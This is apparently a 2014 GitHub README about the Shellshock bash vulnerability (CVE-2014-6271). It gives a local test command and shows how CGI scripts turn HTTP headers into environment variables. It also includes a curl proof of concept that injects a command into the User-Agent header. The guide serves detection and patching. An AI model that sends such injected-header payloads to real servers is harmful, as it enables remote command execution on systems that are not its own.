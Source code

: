 CVE-2014-6271
===


[1. Overview](#overview)

[2. HTTP Header](#httpheader)

[3. Thanks](#thanks)

<a name="overview"></a>
##1. Overview
===

**CVE-2014-6271** is a real nasty one; this vulnerability is in one of those pervasive pieces of software that comes with nearly every unixy type device- the [bash](http://tiswww.case.edu/php/chet/bash/bashtop.html), the Bourne-Again SHell.  Let's test to see if your servers|workstations|internet-of-things is vulnerable:

Open a shell and paste:
```
env x='() { :;}; echo vulnerable' bash -c 'echo hello'
```

If you are not vulnerable, then the following will be shown:
```
bash: warning: x: ignoring function definition attempt
bash: error importing function definition for `x'
hello
```
If you are vulnerable, then you will see:
```
vulnerable
hello
```

If you are vulnerable you should update your device immediately.  I have a feeling that this is the kind of exploit that is going to start cropping up in a large variety of cases.  I'll try to keep this updated to detect the various methods as the situation evolves.

<a name="httpheader"></a>
##2. HTTP Header Attack
===


First POC is out- attempting to attack bash based cgi scripts; [internet wide scans](http://blog.erratasec.com/2014/09/bash-shellshock-scan-of-internet.html) have been kicked off and I expect to see this genuinely weaponized before the evening is out. 

Let's explore what is happening a little further here; a vulnerable piece of code will look something like this:

```
#!/bin/bash

echo Content-type: text/html
echo ""

/bin/cat << EOM
<HTML>
<HEAD><TITLE>File Output: /home/user1/public_html/text-file.txt </TITLE>
</HEAD>
<BODY bgcolor="#cccccc" text="#000000">
<P>
<SMALL>
<PRE>
EOM

/bin/env

CAT << EOM
</PRE>
</SMALL>
<P>
</BODY>
</HTML>
EOM
```
[source](http://www.yolinux.com/TUTORIALS/LinuxTutorialCgiShellScript.html) 

This piece of code will output something like this:
```
<HTML>
<HEAD><TITLE>File Output: /home/user1/public_html/text-file.txt </TITLE>
</HEAD>
<BODY bgcolor="#cccccc" text="#000000">
<P>
<SMALL>
<PRE>
SERVER_SIGNATURE=
Apache/2.0.40 Server at localhost Port 80


UNIQUE_ID=DErk6n8AAAEAAAblFQEAAAAD
HTTP_USER_AGENT=Mozilla/4.8 [en] (X11; U; Linux 2.4.18-27.8.0 i586)
SERVER_PORT=80
HTTP_HOST=localhost
DOCUMENT_ROOT=/var/www/html
HTTP_ACCEPT_CHARSET=iso-8859-1,*,utf-8
SCRIPT_FILENAME=/var/www/cgi-bin/env.sh
REQUEST_URI=/cgi-bin/env.sh
SCRIPT_NAME=/cgi-bin/env.sh
HTTP_CONNECTION=Keep-Alive
REMOTE_PORT=32984
PATH=/sbin:/usr/sbin:/bin:/usr/bin:/usr/X11R6/bin
PWD=/var/www/cgi-bin
SERVER_ADMIN=root@localhost
HTTP_ACCEPT_LANGUAGE=en
HTTP_ACCEPT=image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*
REMOTE_ADDR=127.0.0.1
SHLVL=1
SERVER_NAME=localhost
SERVER_SOFTWARE=Apache/2.0.40 (Red Hat Linux)
QUERY_STRING=
SERVER_ADDR=127.0.0.1
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.0
HTTP_ACCEPT_ENCODING=gzip
REQUEST_METHOD=GET
_=/bin/env
</PRE>
</SMALL>
<P>
</BODY>
</HTML>
```

[mod_cgi]() takes all of the HTTP header fields have been passes them to the bash script as environment variables for execution?  And you know that the **remote** party, the *connection originator* controls execution all of the client headers...  Really this is as simple as just using curl:

```
curl -k -H 'User-Agent: () { :;}; /bin/ping -c1  XXX.XXX.XXX.XXX' http://127.0.0.1/cgi-bin/hi
``` 

So far we have not seen or been able to get a URL encoded version of this exploit to work- however, I expect to see significant "inovation" in this space.  More to come.

<a name="thanks"></a>
##3. Thanks
===

Thanks to [@hackerplaybook](https://twitter.com/hackerplaybook) for the help testing.  Give him (and Me- [@Hectaman](https://twitter.com/hectaman)) a follow!